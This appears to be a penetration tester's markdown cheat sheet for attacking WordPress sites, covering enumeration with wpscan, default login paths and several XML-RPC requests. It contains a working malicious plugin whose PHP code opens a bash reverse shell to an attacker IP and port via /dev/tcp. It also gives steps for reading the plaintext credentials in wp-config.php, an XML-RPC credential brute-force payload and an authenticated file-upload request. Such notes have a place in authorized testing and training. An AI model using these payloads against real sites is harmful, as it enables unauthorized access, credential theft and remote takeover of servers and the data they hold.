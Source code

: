 # Wordpress

## Plugin enumeration

Enumeration can be executed with the tool wpscan downloadable [here](https://github.com/wpscanteam/wpscan)

```http
wpscan --update
wpscan --url <host> --enumerate u,p            #list users and installed lugins
wpscan --url <host> --enumerate ap,at,cb,dbe   #bruteforce installed plugins, better results but really 
```

## Standard pages and folders

#### License files

* `/license.txt`
* `/readme.html`

#### Login pages

* `/wp-admin/login.php`
* `/wp-admin/wp-login.php`
* `/login.php`
* `/wp-login.php`

#### Storage folders

* `wp-content/uploads/` resources folder
* `wp-content/themes/` themes folder
* `wp-includes/` plugins, scripts and widgets

## Reverse shell upload

These attacks require access to the administrative console

### Template editor

It is possible to use the template editor to modify a php page. The modified files are usually located under `/wp-content/themes/<theme>/<page>.php`

### Plugin upload functionality

It is possible to upload and execute a reverse shell payload by abusing the install plugin functionality

Create a .php file as follows then zip it and upload the archive. Once uploaded press the "Activate" button

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
?>
```

## Pivoting

This file contains plain-text username and password for database login. Sometimes these credentials can also be used to authenticate as another user on target machine.

```http
cat <wp folder>/wp-config.php    #local
wget <url>/wp-config.php         #remote
```

## XML-RPC

### Check if active

Send the following request to /xmlrpc.php

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

### Credentials bruteforce

You can use `wp.getUsersBlogs`, `wp.getCategories` or `metaWeblog.getUsersBlogs` as value for the `methodName` field

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>[user]</value></param>
<param><value>[pass]</value></param>
</params>
</methodCall>
```

### File upload

Requires valid credentials

```
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>[user]</string></value></param>
		<param><value><string>[pass]</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>[filename]</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>[mime type]</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[base64 blob here]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```
